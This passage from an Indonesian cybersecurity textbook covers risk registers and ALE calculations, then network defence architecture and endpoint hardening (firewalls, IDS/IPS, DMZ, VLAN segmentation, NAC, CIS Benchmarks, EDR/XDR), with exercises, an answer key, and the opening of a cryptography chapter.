### Studi Kasus: Mini Risk Assessment untuk Instansi Pemerintah

**Konteks:** Dinas Kependudukan dan Catatan Sipil (Dukcapil) kabupaten melakukan mini risk assessment untuk sistem e-KTP online yang baru diluncurkan.

**Aset yang Diidentifikasi:**
1. Database data kependudukan (1,5 juta penduduk): NIK, nama, alamat, biometrik
2. Sistem aplikasi e-KTP online (web-based)
3. Koneksi internet ke server pusat Kemendagri

**Risk Register (Sebagian):**

| ID | Aset | Ancaman | Kerentanan | C/I/A | Impact | Likelihood | Risk | Treatment |
|---|---|---|---|---|---|---|---|---|
| R-01 | Database | SQL Injection | Input tidak tersanitasi di API | C, I | Sangat Tinggi | Sedang | **High** | Patch aplikasi; WAF; penetration test |
| R-02 | Database | Insider Fraud | Tidak ada log akses individu | C | Tinggi | Rendah | **Medium** | Implementasi logging; audit berkala |
| R-03 | Aplikasi | DDoS | Server tunggal tanpa CDN | A | Tinggi | Sedang | **High** | Load balancer; DDoS protection dari provider |
| R-04 | Koneksi | MITM Attack | Sertifikat TLS expired | C | Sedang | Rendah | **Low** | Monitoring sertifikat; renewal otomatis |

**Prioritas Treatment:**
R-01 (SQL Injection) dan R-03 (DDoS) mendapat prioritas tertinggi karena likelihood Sedang + impact Sangat Tinggi/Tinggi. R-02 meskipun impact tinggi, likelihood rendah menempatkannya di prioritas menengah.

---

## 7. Praktikum — Menyusun Risk Register

**Tujuan:** Melatih penyusunan risk register yang komprehensif untuk organisasi nyata.

**Skenario:** Koperasi simpan pinjam dengan 5.000 anggota menggunakan sistem online untuk simpan pinjam.

**Tugas:** Identifikasi minimal 10 risiko; buat risk register lengkap; lakukan risk assessment kualitatif; rekomendasikan treatment untuk 5 risiko tertinggi.

**Output:** Risk Register (Template Lampiran B.2)

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Jika AV = Rp 1.000.000.000, EF = 25%, ARO = 0.5, maka ALE adalah:
A. Rp 250.000.000   B. Rp 125.000.000   C. Rp 500.000.000   D. Rp 50.000.000

**Soal 2 (PG):** Perusahaan memutuskan untuk membeli asuransi siber untuk menutupi kerugian akibat ransomware. Ini adalah contoh risk treatment opsi:
A. Mitigate   B. Avoid   C. Transfer   D. Accept

**Soal 3 (Esai):** Jelaskan kapan pendekatan kuantitatif lebih tepat daripada kualitatif dalam risk assessment, dan kapan pendekatan kualitatif lebih praktis.

**Soal 4 (Perhitungan):** Server web sebuah toko online memiliki nilai Rp 500 juta. Kerentanan yang ada diperkirakan akan menyebabkan 30% kerusakan jika dieksploitasi. Probabilitas eksploitasi diperkirakan 20% per tahun. Sebuah WAF seharga Rp 50 juta/tahun dapat mengurangi probabilitas eksploitasi menjadi 5%. Apakah investasi WAF ini justifiable secara finansial?

**Soal 5 (Analisis):** Manajemen sebuah perusahaan memutuskan untuk "accept" risiko bahwa data pelanggan mungkin bocor karena biaya enkripsi terlalu mahal. Evaluasi keputusan ini dari perspektif: (a) manajemen risiko yang baik, (b) etika profesional, (c) implikasi hukum berdasarkan UU PDP Indonesia.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Risk Assessment untuk Proyek Migrasi Cloud

Sebuah perusahaan asuransi nasional berencana memigrasikan seluruh sistem core business ke AWS dalam 12 bulan. Proses migrasi akan berlangsung dalam 3 fase. Manajemen meminta risk assessment komprehensif sebelum memulai.

**Pertanyaan:**
1. **Risk Assessment (C4)**: Identifikasi 6 risiko signifikan yang spesifik untuk proyek migrasi cloud ini (bukan risiko operasional umum). Untuk setiap risiko, gunakan format lengkap: Aset, Ancaman, Kerentanan, Dampak (CIA + Bisnis), Likelihood, Risk Level, dan Rekomendasi Treatment awal.

2. **Risk Treatment Plan (C5)**: Untuk 3 risiko highest-priority yang Anda identifikasi, buat risk treatment plan yang detail: kontrol spesifik yang diimplementasikan, siapa yang bertanggung jawab, timeline, dan metrik keberhasilan. Justifikasikan pilihan treatment (mitigate/transfer/avoid/accept) untuk masing-masing risiko.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (Rp 125.000.000):**
SLE = AV × EF = Rp 1.000.000.000 × 25% = Rp 250.000.000
ALE = SLE × ARO = Rp 250.000.000 × 0.5 = **Rp 125.000.000**

**Soal 2 — C (Transfer):** Membeli asuransi mengalihkan konsekuensi finansial kepada perusahaan asuransi. Ini tidak mengurangi likelihood atau impact dari insiden — hanya mengalihkan beban finansialnya.

**Soal 3:** Kuantitatif lebih tepat ketika: nilai aset dapat dihitung secara finansial, data historis frekuensi insiden tersedia, diperlukan justifikasi ROI investasi keamanan kepada manajemen keuangan, dan analisis asuransi siber diperlukan. Kualitatif lebih praktis ketika: organisasi baru memulai risk assessment, nilai aset sulit dimonetasi (reputasi, kepercayaan publik), diperlukan proses yang cepat untuk mengidentifikasi prioritas, dan tim tidak memiliki keahlian statistik yang mendalam.

**Soal 4:**
SLE sebelum WAF = Rp 500.000.000 × 30% = Rp 150.000.000
ALE sebelum WAF = Rp 150.000.000 × 20% = **Rp 30.000.000/tahun**

SLE setelah WAF = Rp 500.000.000 × 30% = Rp 150.000.000 (impact sama)
ALE setelah WAF = Rp 150.000.000 × 5% = **Rp 7.500.000/tahun**

ALE reduction = Rp 30.000.000 - Rp 7.500.000 = Rp 22.500.000/tahun
Biaya WAF = Rp 50.000.000/tahun

**Kesimpulan: WAF TIDAK justifiable** secara kalkulasi ALE murni (biaya Rp 50 juta > pengurangan ALE Rp 22,5 juta). Namun, keputusan ini harus mempertimbangkan faktor non-finansial: risiko reputasi jika terjadi breach, kewajiban hukum kepada pelanggan, dan kemungkinan ALE underestimate karena biaya tidak langsung (investigasi forensik, notifikasi pelanggan, denda regulasi) tidak diperhitungkan.

**Soal 5:**
(a) **Manajemen Risiko:** "Accept" risiko valid *jika* risiko berada di bawah threshold toleransi *atau* biaya mitigasi tidak proporsional dengan kemungkinan kerugian. Dalam kasus ini, jika enkripsi benar-benar tidak terjangkau, management harus mendokumentasikan keputusan ini secara formal dengan justifikasi yang jelas dan disetujui oleh level manajemen yang berwenang.

(b) **Etika Profesional:** Menerima risiko bocornya data pelanggan tanpa memberitahu mereka bahwa data mereka mungkin tidak dilindungi secara optimal melanggar prinsip kejujuran dan transparency dalam hubungan dengan pelanggan. Ini adalah masalah etika yang serius.

(c) **Implikasi Hukum UU PDP:** UU Perlindungan Data Pribadi Indonesia (UU No. 27/2022) mewajibkan pengendali data untuk mengimplementasikan langkah-langkah keamanan yang "tepat dan proporsional" untuk melindungi data pribadi. Memilih "accept" tanpa mitigasi apapun untuk risiko kebocoran data pribadi kemungkinan merupakan pelanggaran kewajiban hukum, yang dapat mengakibatkan sanksi administratif dan pidana.

---

## 11. Ringkasan Bab

Manajemen risiko adalah fondasi dari semua keputusan keamanan yang rasional dan dapat dipertanggungjawabkan. Risk assessment — proses identifikasi, analisis, evaluasi, dan perlakuan risiko — memberikan dasar yang objektif untuk mengalokasikan sumber daya keamanan kepada ancaman yang paling signifikan.

Perhitungan ALE, SLE, dan ARO memungkinkan justifikasi investasi keamanan dalam bahasa finansial yang dipahami oleh manajemen. Risk register menyediakan dokumentasi terpusat yang memastikan akuntabilitas dan memungkinkan tracking progress dari waktu ke waktu.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** ALE sebagai metode kuantitatif sering dikritik karena ARO sangat sulit diestimasi dengan akurat untuk event yang jarang terjadi (seperti breach besar). Apakah angka yang tidak akurat lebih berbahaya daripada tidak ada angka sama sekali? Bagaimana Anda mengkomunikasikan ketidakpastian ini kepada manajemen yang mengandalkan angka untuk membuat keputusan?

**Pertanyaan Refleksi 2:** Dalam risk assessment, keputusan tentang "siapa yang membuat keputusan risk acceptance" sangat penting. Jika CISO menerima risiko rendah-menengah secara mandiri, siapa yang harus menyetujui risiko tinggi? Siapa yang harus menyetujui risiko sangat tinggi yang mempengaruhi data nasabah? Bagaimana governance risk acceptance ini seharusnya distrukturkan?

---


---

# BAB 12 — ARSITEKTUR KEAMANAN JARINGAN DAN HARDENING ENDPOINT

**Pertemuan:** 12  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.4  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 12, mahasiswa mampu:

- Menjelaskan arsitektur keamanan jaringan yang terdiri dari firewall, IDS/IPS, DMZ, dan segmentasi jaringan.
- Mendeskripsikan prinsip-prinsip hardening endpoint berdasarkan CIS Benchmarks.
- Menganalisis kelemahan arsitektur jaringan flat dan merancang arsitektur berlapis yang lebih aman.
- Mengevaluasi efektivitas kontrol jaringan dalam konteks Defense-in-Depth.
- Menjelaskan peran EDR/XDR dalam deteksi dan respons ancaman pada endpoint.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    NetSec["Arsitektur Keamanan\nJaringan & Endpoint"] --> Network["Keamanan Jaringan"]
    NetSec --> Endpoint["Hardening Endpoint"]
    
    Network --> FW["Firewall\n(Packet Filter, SPI, NGFW)"]
    Network --> IDS["IDS/IPS\n(Signature vs Anomaly)"]
    Network --> DMZ["DMZ Architecture\n(Zona Demilitarisasi)"]
    Network --> Seg["Network Segmentation\n(VLAN, Micro-segmentation)"]
    Network --> VPN["VPN & Remote Access\n(IPsec, SSL/TLS VPN)"]
    Network --> NAC["Network Access Control\n(802.1X, Posture Check)"]
    Network --> Proxy["Web Proxy & DNS\n(Filtering, RPZ)"]
    
    Endpoint --> CIS["CIS Benchmarks\n(Level 1 & 2)"]
    Endpoint --> Patch["Patch Management\n(WSUS, SCCM, Ansible)"]
    Endpoint --> EDR["EDR/XDR\n(Behavioral Detection, SOAR)"]
    Endpoint --> AppCtrl["Application Control\n(Allowlisting)"]
    Endpoint --> Encrypt["Endpoint Encryption\n(BitLocker, FileVault)"]
```

---

## 3. Pengantar Kontekstual

Jaringan adalah medan pertempuran utama dalam keamanan siber. Sebagian besar serangan — dari phishing hingga ransomware — memanfaatkan koneksi jaringan pada setiap fase: pengiriman payload, komunikasi C2, lateral movement, dan eksfiltrasi data. Oleh karena itu, arsitektur jaringan yang aman adalah lapisan pertahanan pertama dan paling kritis.

Namun, jaringan yang aman tanpa endpoint yang aman adalah pintu besi dengan jendela yang terbuka. Endpoint — laptop, server, workstation, perangkat mobile — adalah titik akhir di mana data diolah dan di mana pengguna berinteraksi. Hardening endpoint yang buruk membuat semua investasi keamanan jaringan menjadi sia-sia.

Bab ini membahas keduanya secara holistik: bagaimana merancang arsitektur jaringan berlapis, dan bagaimana memastikan setiap endpoint yang terhubung ke jaringan sudah dalam kondisi aman.

---

## 4. Landasan Teori

### 4.1 Firewall: Evolusi dan Jenis

**Generasi 1 — Packet Filtering Firewall:**
Memfilter paket berdasarkan header IP/TCP/UDP: alamat sumber/tujuan, port, dan protokol. Tidak memiliki pemahaman tentang konteks koneksi — setiap paket dievaluasi secara independen.

*Kelemahan:* Mudah dielabur dengan IP spoofing; tidak dapat memeriksa payload; tidak memahami state koneksi.

**Generasi 2 — Stateful Packet Inspection (SPI) Firewall:**
Melacak state koneksi TCP (SYN, ESTABLISHED, FIN) dan memverifikasi bahwa paket yang masuk adalah bagian dari koneksi yang sah. Jauh lebih efektif dalam mencegah serangan berbasis manipulasi state TCP.

**Generasi 3 — Application Layer Firewall / Proxy Firewall:**
Memahami protokol aplikasi (HTTP, SMTP, FTP) dan dapat memeriksa konten payload. Web Application Firewall (WAF) adalah spesialisasi dari kategori ini.

**Generasi 4 — Next-Generation Firewall (NGFW):**
Mengintegrasikan SPI dengan kemampuan tambahan:
- Deep Packet Inspection (DPI) — memeriksa payload hingga layer aplikasi
- Application Identification — mengidentifikasi aplikasi berdasarkan signature (bukan hanya port)
- User Identity Integration — mengikat aturan firewall dengan identitas pengguna (integrasi LDAP/AD)
- SSL/TLS Inspection — dekripsi dan inspeksi traffic terenkripsi
- Intrusion Prevention System (IPS) terintegrasi
- Threat Intelligence Feeds — memblokir IP/domain berbahaya berdasarkan intel terkini

### 4.2 IDS dan IPS

**IDS (Intrusion Detection System):**
Memantau traffic jaringan dan menghasilkan alert ketika mendeteksi aktivitas mencurigakan. IDS adalah **pasif** — mendeteksi tetapi tidak memblokir. Cocok untuk deployment di mana false positive tinggi dapat mengganggu operasional.

**IPS (Intrusion Prevention System):**
Memantau traffic dan secara **aktif memblokir** traffic yang terdeteksi sebagai berbahaya. Lebih efektif mencegah serangan, tetapi false positive dapat memutus koneksi yang sah.

**Metode Deteksi:**

| Metode | Cara Kerja | Keunggulan | Kelemahan |
|---|---|---|---|
| **Signature-based** | Cocokkan traffic dengan database signature serangan yang diketahui | Akurasi tinggi untuk serangan diketahui; false positive rendah | Tidak efektif terhadap zero-day; membutuhkan update signature rutin |
| **Anomaly-based** | Bangun baseline traffic normal; alert jika ada deviasi signifikan | Dapat mendeteksi serangan baru (zero-day); mendeteksi insider threat | False positive tinggi; membutuhkan waktu learning; sulit di-tune |
| **Behavioral** | Analisis pola perilaku (bukan signature tunggal) | Efektif terhadap APT dan serangan multi-tahap | Kompleks; membutuhkan resource besar |

### 4.3 Arsitektur DMZ (Demilitarized Zone)

DMZ adalah segmen jaringan yang ditempatkan antara internet (untrusted) dan jaringan internal (trusted), menyediakan lapisan perlindungan ekstra untuk sistem yang perlu diakses dari internet.

**Arsitektur DMZ Standar:**
- **Internet** → Firewall Eksternal → **DMZ** (Web Server, Mail Server, DNS) → Firewall Internal → **Internal Network** (Database, Active Directory, User Workstations)

**Prinsip:** Server di DMZ dapat diakses dari internet, tetapi mereka tidak memiliki akses langsung ke jaringan internal. Jika server DMZ dikompromikan, penyerang masih harus menembus firewall internal untuk mencapai data sensitif.

**Variasi Modern:**
- Dual-firewall DMZ menggunakan dua vendor firewall berbeda untuk Defense-in-Depth
- Micro-DMZ untuk API gateway dan layanan microservices
- Cloud DMZ menggunakan VPC dengan subnet publik/privat

### 4.4 Network Segmentation dan VLANs

**Flat Network (Jaringan Datar):** Semua perangkat berada dalam satu broadcast domain/subnet. Ancaman terbesar: jika satu perangkat dikompromikan, penyerang dapat bergerak lateral ke seluruh jaringan tanpa hambatan.

**VLAN (Virtual Local Area Network):** Membagi jaringan fisik menjadi segmen-segmen logis yang terpisah. Traffic antar VLAN harus melewati router atau firewall, yang memungkinkan penerapan access control.

**Segmentasi Berdasarkan Fungsi:**
- VLAN IT Administration (management traffic, sensitive)
- VLAN User (workstation karyawan umum)
- VLAN Server (server produksi, database)
- VLAN Guest (WiFi tamu, tidak dapat akses jaringan internal)
- VLAN IoT (perangkat IoT yang memiliki keamanan rendah, diisolasi)
- VLAN DMZ (server yang menghadap internet)

**Micro-segmentation:** Segmentasi hingga level workload atau aplikasi individual. Terutama relevan di lingkungan virtualisasi dan cloud. Setiap workload memiliki firewall logis tersendiri — penyerang yang berhasil mengkompromikan satu VM tidak dapat otomatis bergerak ke VM lain.

### 4.5 Network Access Control (NAC)

NAC memastikan bahwa hanya perangkat yang memenuhi kebijakan keamanan yang diizinkan terhubung ke jaringan.

**Komponen NAC:**
- **Authenticator**: Switch, wireless controller yang memaksakan access control
- **Authentication Server**: RADIUS server yang memverifikasi identitas
- **Policy Server**: Memeriksa posture (kondisi keamanan) perangkat
- **Client**: Perangkat yang meminta akses jaringan

**IEEE 802.1X:**
Standar untuk Network Access Control berbasis port. Sebelum perangkat mendapatkan akses jaringan, harus berautentikasi ke RADIUS server menggunakan EAP (Extensible Authentication Protocol). Mendukung autentikasi berbasis sertifikat, username/password, atau kombinasi.

**Posture Check:**
Verifikasi bahwa perangkat memenuhi persyaratan keamanan sebelum diberikan akses penuh:
- OS sudah di-patch (patch level minimum)
- Antivirus aktif dan database up-to-date
- Firewall host aktif
- Enkripsi disk diaktifkan
- Tidak ada software berbahaya terdeteksi

Perangkat yang gagal posture check ditempatkan di quarantine VLAN untuk remediation.

### 4.6 Hardening Endpoint dengan CIS Benchmarks

**CIS Benchmarks** adalah panduan konfigurasi keamanan yang dikembangkan oleh Center for Internet Security melalui proses konsensus komunitas global. Tersedia untuk hampir semua sistem operasi, database, middleware, dan aplikasi populer.

**Dua Level CIS Benchmark:**
- **Level 1**: Konfigurasi keamanan dasar yang applicable untuk hampir semua lingkungan, dampak minimal terhadap fungsionalitas. Wajib diimplementasikan.
- **Level 2**: Kontrol yang lebih ketat, mungkin berdampak terhadap fungsionalitas di beberapa lingkungan. Untuk lingkungan dengan persyaratan keamanan tinggi.

**Contoh Kontrol CIS Windows 10/11 (Level 1):**
- Nonaktifkan autorun untuk semua drive
- Aktifkan Windows Firewall untuk semua profil (domain, private, public)
- Pastikan password minimal 14 karakter
- Aktifkan screen lock setelah 15 menit idle
- Nonaktifkan akun guest
- Pastikan BitLocker diaktifkan untuk semua volume OS
- Aktifkan audit logon events (success dan failure)
- Nonaktifkan SMBv1

**Patch Management:**
Proses sistematis untuk mengidentifikasi, menguji, menyetujui, dan menerapkan patch keamanan pada seluruh aset IT:
1. **Inventory**: Ketahui semua aset dan versi software yang berjalan
2. **Scan**: Identifikasi kerentanan yang membutuhkan patch (Vulnerability Scanner)
3. **Prioritize**: Prioritaskan berdasarkan CVSS score dan eksploitability (CISA KEV)
4. **Test**: Uji patch di staging environment sebelum produksi
5. **Deploy**: Deploy menggunakan tool manajemen patch (WSUS, SCCM, Ansible)
6. **Verify**: Verifikasi bahwa patch berhasil diterapkan
7. **Report**: Laporan kepatuhan patch untuk audit

### 4.7 EDR dan XDR

**EDR (Endpoint Detection and Response):**
Solusi keamanan yang merekam dan menganalisis aktivitas endpoint secara mendalam untuk mendeteksi, menginvestigasi, dan merespons ancaman yang lolos dari antivirus tradisional.

**Kemampuan Utama EDR:**
- **Visibility**: Telemetri lengkap tentang proses, koneksi jaringan, file, registry
- **Detection**: Behavioral detection berbasis MITRE ATT&CK patterns
- **Investigation**: Timeline serangan, process tree, file genealogy
- **Response**: Isolasi endpoint, kill process, rollback perubahan

**XDR (Extended Detection and Response):**
Evolusi dari EDR yang mengintegrasikan data dari multiple security layer:
- Endpoint (EDR)
- Network (NDR/traffic analysis)
- Email (email security gateway)
- Cloud (CASB, cloud workload protection)
- Identity (UEBA, IdP logs)

XDR memberikan visibility dan deteksi yang lebih komprehensif dengan mengorrelasikan event dari berbagai sumber yang mungkin tidak terlihat signifikan secara individual tetapi bersama-sama menunjukkan serangan.

---

## 5. Model atau Arsitektur

### 5.1 Arsitektur Jaringan Berlapis (Defense-in-Depth)

```mermaid
flowchart TD
    Internet["Internet\n(Untrusted)"]
    
    subgraph EdgeLayer["Edge Layer"]
        EdgeFW["NGFW Eksternal\n(DDoS Protection, GeoIP Filtering)"]
        WAF["Web Application Firewall"]
    end
    
    subgraph DMZLayer["DMZ Layer"]
        WebSrv["Web Server / API Gateway"]
        MailSrv["Mail Gateway (Anti-spam)"]
        VPN_GW["VPN Gateway"]
    end
    
    subgraph InternalFW["Internal Firewall Layer"]
        IntFW["NGFW Internal\n(Strict ACL, IPS Active Mode)"]
    end
    
    subgraph InternalNet["Internal Network (Segmented)"]
        UserVLAN["VLAN User\n(Workstations)"]
        ServerVLAN["VLAN Server\n(Apps, DB)"]
        AdminVLAN["VLAN Management\n(Jump Server, AD)"]
        IoTVLAN["VLAN IoT\n(No Internet Access)"]
    end
    
    subgraph Monitoring["Security Monitoring Layer"]
        SIEM["SIEM\n(Log Aggregation & Correlation)"]
        IDS2["Network IDS\n(Passive Monitoring)"]
        NDR["NDR\n(Traffic Analysis)"]
    end
    
    Internet --> EdgeLayer --> DMZLayer --> InternalFW --> InternalNet
    InternalNet --> Monitoring
    DMZLayer --> Monitoring
    EdgeLayer --> Monitoring
```

---

## 6. Contoh Terapan

### Studi Kasus: Redesign Arsitektur Jaringan Setelah Insiden Lateral Movement

**Konteks:** Sebuah perusahaan manufaktur mengalami insiden ransomware yang menyebar dari satu workstation karyawan ke 80% jaringan dalam 3 jam. Investigasi forensik menunjukkan jaringan flat tanpa segmentasi; SMBv1 aktif di seluruh jaringan; tidak ada EDR; patch tertinggal 6-8 bulan.

**Arsitektur Before (Bermasalah):**
Semua 500 perangkat (workstation, server produksi, server ERP, SCADA industrial control) dalam satu VLAN tanpa segmentasi. Firewall hanya di perimeter internet — tidak ada kontrol lateral.

**Arsitektur After (Hasil Redesign):**

| VLAN | Perangkat | Aturan Akses |
|---|---|---|
| VLAN-10 Management | Switch, firewall, server monitoring | Hanya admin dari jump server; tidak ada akses dari VLAN user |
| VLAN-20 Server | ERP, database, file server | Akses dari VLAN user hanya untuk port aplikasi spesifik |
| VLAN-30 User | 350 workstation karyawan | Internet via proxy; akses server via VLAN-20 ACL |
| VLAN-40 OT/SCADA | Industrial control systems | **Air-gapped** dari internet; koneksi ke server via historian server terisolasi |
| VLAN-50 Guest | WiFi tamu | Hanya internet; tidak ada akses ke jaringan internal |

**Kontrol Tambahan Diimplementasikan:**
- SMBv1 dinonaktifkan di seluruh jaringan
- EDR deployed ke semua workstation dan server
- Patch management otomatis dengan jendela 72 jam untuk critical patches
- NAC dengan posture check untuk semua perangkat
- NGFW internal dengan IPS aktif antar VLAN

**Hasil:** Simulasi red team 6 bulan kemudian menunjukkan bahwa dari titik awal yang sama, ransomware simulasi hanya dapat menginfeksi 3 workstation dalam VLAN-30 sebelum diblokir oleh ACL VLAN.

---

## 7. Praktikum — Analisis Arsitektur Jaringan dan Rekomendasi Hardening

**Tujuan:** Melatih kemampuan menganalisis kelemahan arsitektur jaringan dan merancang perbaikan.

**Skenario:** Diagram arsitektur jaringan rumah sakit disediakan dosen. Identifikasi minimal 8 kelemahan keamanan; rekomendasikan perbaikan untuk setiap kelemahan; prioritaskan berdasarkan risiko; estimasikan effort implementasi (rendah/sedang/tinggi).

**Output:** Laporan analisis arsitektur (Template Lampiran B.3)

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Perbedaan utama antara IDS dan IPS adalah:
A. IDS menggunakan signature, IPS menggunakan anomaly detection
B. IDS hanya mendeteksi, IPS aktif memblokir traffic berbahaya
C. IDS untuk jaringan internal, IPS untuk perimeter
D. IDS lebih mahal dari IPS

**Soal 2 (PG):** Perangkat tamu yang terhubung ke WiFi kantor dimasukkan ke VLAN terpisah yang hanya memiliki akses internet tanpa dapat mengakses server internal. Ini adalah implementasi dari:
A. Defense-in-Depth   B. Network Segmentation   C. NAC   D. Zero Trust

**Soal 3 (PG):** CIS Benchmark Level 2 berbeda dari Level 1 dalam hal:
A. Level 2 lebih mudah diimplementasikan   B. Level 2 untuk server, Level 1 untuk workstation
C. Level 2 lebih ketat dan mungkin berdampak pada fungsionalitas   D. Level 2 hanya untuk Linux

**Soal 4 (Esai):** Jelaskan mengapa arsitektur jaringan flat (semua perangkat dalam satu VLAN) sangat berbahaya, dan bagaimana segmentasi jaringan membatasi dampak jika terjadi kompromi pada satu perangkat.

**Soal 5 (Analisis):** EDR modern menggunakan behavioral detection berbasis pola MITRE ATT&CK. Jelaskan keunggulan pendekatan ini dibandingkan antivirus signature-based tradisional, dan apa saja kondisi di mana EDR behavioral detection masih dapat dielabur?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Implementasi NAC untuk Perusahaan dengan BYOD Policy

Sebuah perusahaan konsultan dengan 300 karyawan baru saja mengadopsi kebijakan BYOD (Bring Your Own Device). Sebelumnya seluruh akses jaringan menggunakan perangkat perusahaan yang dikontrol ketat. Dengan BYOD, berbagai perangkat personal (iPhone, Android, MacBook, Windows personal) akan mengakses jaringan dan data perusahaan.

**Pertanyaan:**
1. **Desain NAC (C4)**: Rancang arsitektur NAC untuk lingkungan BYOD ini. Tentukan: persyaratan posture check minimum untuk perangkat BYOD, VLAN yang akan dibuat dan perangkat mana yang masuk ke masing-masing VLAN, protokol autentikasi yang digunakan, dan penanganan perangkat yang gagal posture check.

2. **Analisis Risiko dan Trade-off (C5)**: BYOD dengan NAC masih memiliki risiko residual dibandingkan full corporate-managed devices. Identifikasi 4 risiko residual yang tetap ada meskipun NAC sudah diimplementasikan. Untuk setiap risiko, tentukan apakah risiko tersebut dapat dimitigasi lebih lanjut atau harus diterima, beserta justifikasinya.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** IDS (Intrusion Detection System) adalah sistem pasif yang mendeteksi dan menghasilkan alert tetapi tidak memblokir. IPS (Intrusion Prevention System) aktif memblokir traffic yang terdeteksi berbahaya. Keduanya dapat menggunakan signature-based, anomaly-based, atau behavioral detection.

**Soal 2 — B (Network Segmentation):** Menempatkan tamu di VLAN terpisah adalah implementasi segmentasi jaringan. Meskipun NAC mungkin juga digunakan untuk autentikasi, pertanyaan spesifik menanyakan tentang pemisahan jaringan, yang merupakan segmentasi.

**Soal 3 — C:** Level 2 CIS Benchmark berisi kontrol yang lebih ketat yang dapat berdampak pada fungsionalitas sistem di beberapa lingkungan. Level 1 dirancang untuk dapat diimplementasikan di hampir semua lingkungan tanpa mengorbankan fungsionalitas yang diperlukan.

**Soal 4:** Jaringan flat berbahaya karena: tidak ada hambatan lateral movement antara perangkat; satu perangkat yang dikompromikan memiliki akses langsung ke semua perangkat lain dalam jaringan (server, database, workstation lain); ransomware atau worm dapat menyebar dengan cepat. Segmentasi membatasi dampak dengan: memisahkan perangkat ke VLAN berdasarkan fungsi/sensitivitas; mewajibkan traffic antar VLAN melewati firewall/router dengan ACL; sehingga kompromi di VLAN user tidak otomatis memberikan akses ke VLAN server.

---

## 11. Ringkasan Bab

Arsitektur keamanan jaringan yang efektif adalah implementasi Defense-in-Depth dalam infrastruktur jaringan: multiple lapisan kontrol (NGFW, IPS, segmentasi, NAC, DMZ) yang memastikan tidak ada single point of failure dalam pertahanan. Arsitektur berlapis berasumsi bahwa setiap lapisan dapat dan akan ditembus, sehingga lapisan berikutnya harus siap.

Hardening endpoint menggunakan CIS Benchmarks, patch management yang disiplin, dan EDR/XDR melengkapi pertahanan jaringan dengan memastikan setiap endpoint yang terhubung berada dalam kondisi aman dan termonitor.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** SSL/TLS inspection oleh NGFW memungkinkan pemantauan traffic terenkripsi, tetapi juga memecah enkripsi end-to-end yang menjamin privasi pengguna. Dari perspektif etika dan hukum, kapan SSL inspection dibenarkan? Apakah karyawan perlu diberitahu bahwa traffic HTTPS mereka dipantau? Bagaimana regulasi UU PDP Indonesia mempengaruhi kebijakan ini?

**Pertanyaan Refleksi 2:** Banyak serangan siber besar berasal dari supply chain — vendor atau pihak ketiga yang memiliki akses ke jaringan klien. Jika NAC hanya memverifikasi posture perangkat tetapi bukan *kepercayaan* pihak yang menggunakan perangkat tersebut, apa yang masih perlu dilakukan untuk mengamankan akses pihak ketiga ke jaringan organisasi Anda?

---


---

# BAB 13 — KRIPTOGRAFI TERAPAN

**Pertemuan:** 13  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.5  
**Evaluasi:** Eval-5 (Tren ancaman, kriptografi, cloud security, AI-driven attack, 15%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 13, mahasiswa mampu:

- Menjelaskan prinsip kerja kriptografi simetris dan asimetris beserta use-case yang tepat.
- Mendeskripsikan fungsi hash kriptografi dan penerapannya dalam integritas data dan tanda tangan digital.
- Menjelaskan konsep Public Key Infrastructure (PKI) dan peran Certificate Authority.
- Menganalisis bagaimana TLS/HTTPS melindungi komunikasi berbasis web.
- Memahami konsep dasar kriptografi pasca-kuantum (post-quantum cryptography) dan relevansinya.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    Crypto["Kriptografi Terapan"] --> Symmetric["Kriptografi Simetris\n(AES, ChaCha20)"]
    Crypto --> Asymmetric["Kriptografi Asimetris\n(RSA, ECC)"]
    Crypto --> Hash["Fungsi Hash\n(SHA-256, SHA-3, BLAKE2)"]
    Crypto --> PKI2["PKI\n(CA, Sertifikat X.509)"]
    Crypto --> PQC["Post-Quantum\nCryptography\n(CRYSTALS-Kyber, Dilithium)"]
    
    Symmetric --> AES2["AES-256-GCM\n(Mode Operasi)"]
    Symmetric --> SC2["Stream Cipher\n(ChaCha20-Poly1305)"]
    
    Asymmetric --> RSA2["RSA\n(Key Exchange, Digital Signature)"]
    Asymmetric --> ECC2["ECC\n(ECDSA, ECDH, Curve25519)"]
    
    Hash --> Integrity["Integritas Data\n(HMAC, File Checksum)"]
    Hash --> DigSig["Digital Signature\n(RSA-SHA256, ECDSA)"]
    Hash --> Passwd["Password Hashing\n(bcrypt, Argon2)"]
    
    PKI2 --> TLS2["TLS 1.3\n(Handshake, Session Key)"]
    PKI2 --> CodeSign["Code Signing\n(Authenticode, APK Signing)"]
```

---

## 3. Pengantar Kontekstual

Kriptografi adalah fondasi matematika dari hampir semua keamanan siber modern. Setiap kali Anda mengunjungi situs HTTPS, mengirim email terenkripsi, atau menyimpan password di database, kriptografi bekerja di balik layar. Namun, kriptografi yang tidak dipahami dengan baik adalah sumber kelemahan keamanan yang umum — menggunakan algoritma yang sudah usang (MD5, SHA-1, DES), mode operasi yang tidak aman (ECB), atau mengimplementasikan kriptografi sendiri tanpa keahlian yang cukup ("don't roll your own crypto").

Tantangan baru muncul dari komputer kuantum. Algoritma Shor yang dapat berjalan di komputer kuantum yang cukup besar dapat memfaktorkan angka besar dalam waktu polinomial — yang berarti RSA dan ECC yang menjadi fondasi keamanan internet saat ini akan menjadi rentan. NIST telah menstandardisasi algoritma kriptografi pasca-kuantum pertama pada 2024, memulai era baru kriptografi.

---

## 4. Landasan Teori

### 4.1 Kriptografi Simetris

Kriptografi simetris menggunakan **satu kunci yang sama** untuk enkripsi dan dekripsi. Sangat efisien secara komputasi — cocok untuk enkripsi data dalam jumlah besar.

**AES (Advanced Encryption Standard):**
